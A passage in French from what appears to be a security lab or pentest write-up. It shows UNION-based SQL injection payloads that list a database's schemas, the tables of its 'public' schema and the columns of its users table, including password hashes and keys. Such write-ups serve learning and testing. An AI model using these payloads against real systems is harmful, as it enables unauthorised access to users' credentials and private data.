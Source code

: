 
### 1.1 SQL injection - les schémas de la BD : 
Nous remarquons qu'il y a une base de données nommée **"public"**, Nous allons essayer de fouiner dedans.
Injection : 
```SQL
' UNION SELECT '1','2',concat(schema_name),'4',CURRENT_TIMESTAMP from information_schema.schemata -- -
```
![schemas](<exploit/sql injection schema.png>)
<p style="text-align: center; text-decoration: underline; color: #A14A1C ; font-style: italic;">Figure 30 : Schémas de la BD</p>

### 1.2 Les tables de la BD "public"
Nous pouvons esasayer d'afficher les table de la BD **"public"** avec l'injection suivante : 
```SQL
' UNION SELECT '1','2',concat(TABLE_NAME),'4',CURRENT_TIMESTAMP 
FROM information_schema.COLUMNS 
WHERE table_schema='public' -- -
``` 
Nous sommes arrivés à lister 7 tables : 
  - roles
  - users_roles
  - roles_permissions
  - secret
  - permissions
  - users
  - posts

Nous pourrons ensuite récupérer les différentes infos de ces tables (faire un dump) avec d'autre injections.

![tables BD public](<exploit/tables public.png>)
<p style="text-align: center; text-decoration: underline; color: #A14A1C ; font-style: italic;">Figure 31 : Tables de la BD public</p>


Attardons nous pour l'instant sur la table **users**

### 1.3 Infos de la table users
Nous allons lister les colonnes de la table **"users"** avec l'injection : 
```SQL
UNION SELECT '1','2',concat(column_name),'4',CURRENT_TIMESTAMP
FROM information_schema.COLUMNS WHERE 
TABLE_NAME='users' -- -
```
Nous réussissons à lister les colonnes de la table users qui sont : **id, login, avatar, hash, bio, key**.
![column users](<exploit/sql column.png>)
<p style="text-align: center; text-decoration: underline; color: #A14A1C ; font-style: italic;">Figure 32 : Colonnes de la table 'users'</p>
